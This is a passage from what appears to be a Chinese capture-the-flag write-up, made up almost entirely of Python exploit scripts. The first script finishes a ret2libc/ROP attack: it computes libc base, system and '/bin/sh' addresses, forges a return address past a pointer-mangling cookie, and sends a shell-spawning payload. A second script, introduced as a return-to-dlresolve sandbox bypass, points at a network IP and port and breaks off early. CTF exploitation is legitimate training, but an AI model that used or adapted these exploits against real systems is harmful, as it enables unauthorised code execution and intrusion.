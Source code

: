 ```
    base = puts_addr - 0x000000000006F5D0
 
    system = base + 0x0000000000045380
 
    print 'system', hex(system)
    binsh = base + 0x000000000018C58B
    '''
 
    base = puts_addr - 0x000000000006FD60
    print 'base', hex(base)
    system = base + 0x0000000000046590
    binsh = base + 0x000000000017C8C3
 
    #io.gdb_hint()
    io.read_until(':')
    io.writeline(str(92233720368547759))
 
 
    fake_rsp = rsp - 0x80
 
    addr = l64(rol(fake_rsp^cookie))+l64(rol(pop_rdi_ret^cookie))
    print HEX(addr)
    io.gdb_hint()
    edit(io, 1, 0, "", addr, "")
 
    io.read_until('&gt;&gt;')
    payload = '5;'+'a'*6
 
    payload += l64(binsh)+l64(system)+l64(main)
    io.writeline(payload)
 
    #io.gdb_hint()
    interact(io)
 
exp(target)
```

**<br>**

**Pwn-sandbox**

沙箱做了如下限制：对外的调用都通过jmp ds:dl_resolve出去，所以采用return-to-dlresolve进行利用。

脚本：

```
#encoding:utf-8
import struct
from threading import Thread
from zio import *
 
 
target = './sandbox ./vul'
#target = './vul'
target = ('58.213.63.30', 4004)
 
def interact(io):
    def run_recv():
        while True:
            try:
                output = io.read_until_timeout(timeout=1)
                # print output
            except:
                return
 
```